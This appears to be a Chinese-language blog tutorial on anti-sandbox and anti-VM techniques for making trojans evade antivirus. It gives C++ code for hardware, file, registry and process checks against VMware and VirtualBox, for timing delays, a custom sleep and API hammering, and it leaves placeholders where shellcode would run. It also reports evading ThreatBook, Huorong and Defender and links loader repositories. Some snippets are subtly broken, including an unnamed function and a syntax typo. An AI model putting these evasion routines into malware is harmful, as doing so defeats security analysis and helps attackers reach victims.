





# 终端对抗-反虚拟环境指南

​	虚拟环境是为软件应用程序的运行提供虚拟化隔离的环境，常用于在隔离的情况下调试和分析恶意软件样本，在制作免杀木马/恶意软件时，反虚拟环境是我们必须考虑的问题，因为我们生成的木马很有可能会被安全人员放入沙箱、虚拟机等进行分析检查，常见的两种虚拟化软件是[VMware](https://www.vmware.com/)和[VirtualBox](https://www.virtualbox.org/)。部分杀软也集成了虚拟沙盒检测功能（比如火绒、defender等），沙盒是一个隔离环境，允许软件在不影响主机系统的情况下执行。对抗虚拟环境的主要方法：检查终端环境、利用延时对抗沙箱。下面来详细介绍。


## 检查终端环境

### 通过硬件规格实现反虚拟环境

​	一般来说，虚拟化环境无法完全访问主机的硬件，可以利用对硬件缺乏完全访问权限来检测它是否在虚拟环境或沙箱中执行。但是此手法无法保证完全准确，因为机器可能只是以较低的硬件规格运行。

可以检查的硬件规格如下：

- CPU — 检查处理器数量是否少于 2 个。
- RAM — 检查是否少于 2 GB。
- 先前安装的 USB 数量 - 检查 USB 数量是否少于 2 个。

**代码如下**

antivm1.h

```c++
#pragma once

#include <Windows.h>
#include <stdio.h>
#include <Shlwapi.h>
#include <psapi.h>

#pragma comment(lib, "Shlwapi.lib")

class VenvChecker {
public:
    static BOOL IsVenvByHardwareCheck();

private:
    VenvChecker() = default;
};

BOOL VenvChecker::IsVenvByHardwareCheck() {
    SYSTEM_INFO SysInfo = { 0 };
    MEMORYSTATUSEX MemStatus = { sizeof(MEMORYSTATUSEX) };
    HKEY hKey = NULL;
    DWORD dwUsbNumber = NULL;
    DWORD dwRegErr = NULL;

    // CPU检查
    GetSystemInfo(&SysInfo);
    
    if (SysInfo.dwNumberOfProcessors < 2) {
        return TRUE;
    }
    if (!GlobalMemoryStatusEx(&MemStatus)) {
        return FALSE;
    }

    // RAM检查
    if ((DWORD)MemStatus.ullTotalPhys < (DWORD)(2 * 1073741824)) {
        return TRUE;
    }

    // USB检查
    if ((dwRegErr = RegOpenKeyExA(HKEY_LOCAL_MACHINE, "SYSTEM\\ControlSet001\\Enum\\USBSTOR", NULL, KEY_READ, &hKey)) != ERROR_SUCCESS) {
        return FALSE;
    }
    if ((dwRegErr = RegQueryInfoKeyA(hKey, NULL, NULL, NULL, &dwUsbNumber, NULL, NULL, NULL, NULL, NULL, NULL, NULL)) != ERROR_SUCCESS) {
        return FALSE;
    }
    if (dwUsbNumber < 2) {
        return TRUE;
    }

    RegCloseKey(hKey);

    return FALSE;
}

```

#### 实战实验

主函数调用

```C++
if(VenvChecker::IsVenvByHardwareCheck()){
    MessageBoxA(NULL,"sandbox check!","sandbox",MB_OK)l
	exit(EXIT_FAILURE);
}

//正常处理shellcode
...
```

https://s.threatbook.com/report/file/647b1524d1c6593b98cf2a61be698184b1b1b3e3bb4a324d7a3c000fc4c2fdbe

在微步云沙箱检测下，仅有获取机器信息的操作，在判断沙箱环境后退出执行。

由于微步云沙箱还有其他引擎，为了样本呈现的结果好看我还做了其他操作来绕过，针对反虚拟环境，主要是来看动态分析这里

可以看到运行截图，木马在检测到为沙箱环境后弹窗并退出，成功对抗了这里的动态分析。



### 检查特定 VM 的文件和注册表项

​	通常虚拟机上都会存在特定的文件和注册表项，我们可以通过查询这些文件路径和注册表项来判断是否处于虚拟机环境。

```c++
// 检查文件
WIN32_FIND_DATAW findFileData;
if (FindFirstFileW(L"C:\\Windows\\System32\\vm3dum64.dll", &findFileData) != INVALID_HANDLE_VALUE) return false;
if (FindFirstFileW(L"C:\\Windows\\System32\\VBox*.dll", &findFileData) != INVALID_HANDLE_VALUE) return false;

// 检查注册表
HKEY hkResult;
if (RegOpenKeyExW(HKEY_LOCAL_MACHINE, L"SYSTEM\\ControlSet001\\Services\\VBoxSF", 0, KEY_QUERY_VALUE, &hkResult) == ERROR_SUCCESS) return false;

bool CheckRegistryKeyValue(HKEY hKeyRoot, LPCWSTR subKey, LPCWSTR valueName, LPCWSTR expectedValue) {
    HKEY hKey;
    if (RegOpenKeyExW(hKeyRoot, subKey, 0, KEY_QUERY_VALUE, &hKey) == ERROR_SUCCESS) {
        WCHAR data[256];
        DWORD dataSize = sizeof(data);
        DWORD type;
        
        if (RegQueryValueExW(hKey, valueName, NULL, &type, (LPBYTE)data, &dataSize) == ERROR_SUCCESS) {
            RegCloseKey(hKey);
            if (type == REG_SZ && wcscmp(data, expectedValue) == 0) {
                return true;
            }
        }
        RegCloseKey(hKey);
    }
    return false;
}

bool IsRunningInVirtualMachine() {
    if (CheckRegistryKeyValue(HKEY_LOCAL_MACHINE, L"HARDWARE\\DEVICEMAP\\Scsi\\Scsi Port 0\\Scsi Bus 0\\Target Id 0\\Logical Unit Id 0", L"Identifier", L"VMware Virtual IDE Hard Drive")) {
        return true;
    }
    if (CheckRegistryKeyValue(HKEY_LOCAL_MACHINE, L"HARDWARE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Reinstall\\0000", L"DeviceDesc", L"VMware Accelerated AMD PCNet Adapter")) {
        return true;
    }
    if (CheckRegistryKeyValue(HKEY_LOCAL_MACHINE, L"SYSTEM\\ControlSet001\\Control\\Class\\{4D36E96F-E325-11CE-BFC1-08002BE10318}\\0000", L"LocationInformationOverride", L"plugged into PS/2 mouse port")) {
        return true;
    }
    return false;
}

//检查VMwareTools相关进程
BOOL IsVMWaretools()
{
 
    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(pe32);
    HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if(hProcessSnap == INVALID_HANDLE_VALUE)
    {
        return FALSE;
    }
    BOOL bMore = Process32First(hProcessSnap, &pe32);
    while(bMore)
    {
        if (strcmp(pe32.szExeFile, "VMwareService.exe")==0 || strcmp(pe32.szExeFile, "VMwareTray.exe")==0 || strcmp(pe32.szExeFile, "VMwareUser.exe")==0 )
        {
            return TRUE;
        }
        bMore = Process32Next(hProcessSnap, &pe32);
    }
    CloseHandle(hProcessSnap);
    return FALSE;
}
```


## 延时抗沙箱

​	延迟执行是一种绕过沙盒环境的常见技术。由于沙盒通常存在时间限制，无法对二进制文件进行长时间的分析，恶意软件可以在代码执行过程中引入长时间的暂停，从而迫使沙盒在分析到二进制文件之前终止。

​	当然沙盒针对这些延时也会有一些应对措施，比如更改通过 API 挂钩传递的参数或通过其他方法来对抗延时，所以我们在做完延时操作后还需要检测延时是否真实发生了。

### 通过 (Nt)WaitForSingleObject 延迟执行

代码执行延迟可以通过[WaitForSingleObject](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)或[NtWaitForSingleObject](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntwaitforsingleobject)系统调用来实现。`NtWaitForSingleObject`是的本机 API 版本`WaitForSingleObject`并执行相同的功能。此外还有NtDelayExecution等，但是这种常规的delay已经基本无效了，大多数沙箱一检测到此类函数会直接加速、跳过，这里还是贴一下代码。

**代码如下**

delayexec1.h

```c++
#pragma once
#include <Windows.h>
#include <stdio.h>
#include "UserDefineApi.h"

typedef NTSTATUS(NTAPI* fnNtDelayExecution)(
	BOOLEAN              Alertable,
	PLARGE_INTEGER       DelayInterval
	);
BOOL (FLOAT ftMinutes) {

	DWORD				dwMilliSeconds = ftMinutes * 60000;
	LARGE_INTEGER		DelayInterval = { 0 };
	LONGLONG			Delay = NULL;
	NTSTATUS			STATUS = NULL;
	fnNtDelayExecution	pNtDelayExecution = (fnNtDelayExecution)MyGetProcAddress(MyGetModuleHandle(L"NTDLL.DLL"), "NtDelayExecution");
	DWORD				_T0 = NULL,
		_T1 = NULL;

	printf("[i] Delaying Execution Using \"NtDelayExecution\" For %0.3d Seconds", (dwMilliSeconds / 1000));

	Delay = dwMilliSeconds * 10000;
	DelayInterval.QuadPart = -Delay;

	_T0 = GetTickCount64();

	if ((STATUS = pNtDelayExecution(FALSE, &DelayInterval)) != 0x00 && STATUS != STATUS_TIMEOUT) {
		printf("[!] NtDelayExecution Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	_T1 = GetTickCount64();

	if ((DWORD)(_T1 - _T0) < dwMilliSeconds)
		return FALSE;

	printf("\n\t>> _T1 - _T0 = %d \n", (DWORD)(_T1 - _T0));

	printf("[+] DONE \n");

	return TRUE;
}


typedef NTSTATUS(NTAPI* fnNtWaitForSingleObject)(
	HANDLE         Handle,
	BOOLEAN        Alertable,
	PLARGE_INTEGER Timeout
	);

BOOL DelayExecutionVia_NtWFSO(FLOAT ftMinutes) {
	DWORD					dwMilliSeconds = ftMinutes * 60000;
	HANDLE					hEvent = CreateEvent(NULL, NULL, NULL, NULL);
	LONGLONG				Delay = NULL;
	NTSTATUS				STATUS = NULL;
	LARGE_INTEGER			DelayInterval = { 0 };
	fnNtWaitForSingleObject	pNtWaitForSingleObject = (fnNtWaitForSingleObject)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtWaitForSingleObject");
	DWORD					_T0 = NULL,
		_T1 = NULL;


	printf("[i] Delaying Execution Using \"NtWaitForSingleObject\" For %0.3d Seconds", (dwMilliSeconds / 1000));

	Delay = dwMilliSeconds * 10000;
	DelayInterval.QuadPart = -Delay;

	_T0 = GetTickCount64();

	if ((STATUS = pNtWaitForSingleObject(hEvent, FALSE, &DelayInterval)) != 0x00 && STATUS != STATUS_TIMEOUT) {
		printf("[!] NtWaitForSingleObject Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	_T1 = GetTickCount64();

	if ((DWORD)(_T1 - _T0) < dwMilliSeconds)
		return FALSE;

	printf("\n\t>> _T1 - _T0 = %d \n", (DWORD)(_T1 - _T0));

	printf("[+] DONE \n");

	CloseHandle(hEvent);

	return TRUE;
}
```


### 自定义Sleep延时执行

由于常规的延迟执行是无效的，这里使用自定义sleep延时来执行。

https://www.legacyy.xyz/defenseevasion/windows/2022/07/04/abusing-shareduserdata-for-defense-evasion-and-exploitation.html

**代码如下**

```C++
#define INTERVAL rand() % 30
#define MS_PER_SECOND 1000 
#define SLEEPTIME INTERVAL*MS_PER_SECOND 

typedef NTSTATUS(WINAPI* pSystemFunction032)(PVOID, PVOID);

unsigned long long __get_timestamp()
{
    const size_t UNIX_TIME_START = 0x019DB1DED53E8000;
    const size_t TICKS_PER_MILLISECOND = 1000;
    LARGE_INTEGER time;
    time.LowPart = *(DWORD*)(0x7FFE0000 + 0x14);
    time.HighPart = *(long*)(0x7FFE0000 + 0x1c);
    return (unsigned long long)((time.QuadPart - UNIX_TIME_START) / TICKS_PER_MILLISECOND);
}

void __alt_sleepms(size_t ms)
{
    volatile size_t x = rand(); 
    const unsigned long long end = __get_timestamp() + ms; 
    while (__get_timestamp() < end) { 
        x += 1; 
    } 
    if (__get_timestamp() - end > 3000) return;

}
```


#### 实战实验

火绒和Windows Defender都会进行沙盒扫描，现使用添加sleep代码前后的扫描结果变化来进行实验。

不添加sleep





添加sleep






### API hammering延时执行

API hammering是通过快速调用随机 WinAPI 来延迟程序的执行。它还可用于混淆实现中正在运行的线程的调用堆栈。这意味着实现逻辑中的恶意函数调用将被随机的良性 WinAPI 调用所隐藏。

API hammering可以利用任何 WinAPI，这里使用下面三个 WinAPI。

- [CreateFileW-](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilew)用于创建并打开文件。
- [WriteFile-](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-writefile)用于将数据写入文件。
- [ReadFile-](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile)用于从文件读取数据。

之所以选择这些 WinAPI，是因为它们在处理大量数据时能够消耗大量处理时间，因此适合进行 API 攻击。

**代码如下**

```c++
#include <Windows.h>
#include <stdio.h>

#define TMPFILE	L"demo.tmp"

#define SECTOSTRESS(i)( (int)i * 196 )


BOOL ApiHammering(DWORD dwStress) {

	WCHAR		szPath						[MAX_PATH * 2],
				szTmpPath					[MAX_PATH];

	HANDLE		hRFile						= INVALID_HANDLE_VALUE,
				hWFile						= INVALID_HANDLE_VALUE;
	
	DWORD		dwNumberOfBytesRead			= NULL,
				dwNumberOfBytesWritten		= NULL;
	
	PBYTE		pRandBuffer					= NULL;
	SIZE_T		sBufferSize					= 0xFFFFF;
	
	INT			Random						= 0;


	if (!GetTempPathW(MAX_PATH, szTmpPath)) {
		printf("[!] GetTempPathW Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	wsprintfW(szPath, L"%s%s", szTmpPath, TMPFILE);

	for (SIZE_T i = 0; i < dwStress; i++){

		if ((hWFile = CreateFileW(szPath, GENERIC_WRITE, NULL, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_TEMPORARY, NULL)) == INVALID_HANDLE_VALUE) {
			printf("[!] CreateFileW Failed With Error : %d \n", GetLastError());
			return FALSE;
		}

		pRandBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sBufferSize);
		Random = rand() % 0xFF;
		memset(pRandBuffer, Random, sBufferSize);

		if (!WriteFile(hWFile, pRandBuffer, sBufferSize, &dwNumberOfBytesWritten, NULL) || dwNumberOfBytesWritten != sBufferSize) {
			printf("[!] WriteFile Failed With Error : %d \n", GetLastError());
			printf("[i] Written %d Bytes of %d \n", dwNumberOfBytesWritten, sBufferSize);
			return FALSE;
		}

		RtlZeroMemory(pRandBuffer, sBufferSize);
		CloseHandle(hWFile);

		if ((hRFile = CreateFileW(szPath, GENERIC_READ, NULL, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_TEMPORARY | FILE_FLAG_DELETE_ON_CLOSE, NULL)) == INVALID_HANDLE_VALUE) {
			printf("[!] CreateFileW Failed With Error : %d \n", GetLastError());
			return FALSE;
		}

		if (!ReadFile(hRFile, pRandBuffer, sBufferSize, &dwNumberOfBytesRead, NULL) || dwNumberOfBytesRead != sBufferSize) {
			printf("[!] ReadFile Failed With Error : %d \n", GetLastError());
			printf("[i] Read %d Bytes of %d \n", dwNumberOfBytesRead, sBufferSize);
			return FALSE;
		}

		RtlZeroMemory(pRandBuffer, sBufferSize);
		HeapFree(GetProcessHeap(), NULL, pRandBuffer);

		CloseHandle(hRFile);
	}

	return TRUE;
}


int main() {

	if (!ApiHammering(SECTOSTRESS(5))) {
		return -1;
	}
    //执行shellcode
}
```


#### 实战实验

使用API hammering延时执行后，火绒和defender均为查杀

配合虚拟机检测：https://s.threatbook.com/report/file/2fd3618caa76e4d988d79d21c612e7b8600aab16aa43caa79d0b44de25489587


# 参考文章

文章涉及所有代码均上传至https://github.com/Cherno-x/MyShellcodeLoader/tree/main/0x14%20%20Anti-Sandbox

文章涉及所有技术将集成于https://github.com/Cherno-x/dataBrawl

https://maldevacademy.com/

https://www.legacyy.xyz/defenseevasion/windows/2022/07/04/abusing-shareduserdata-for-defense-evasion-and-exploitation.html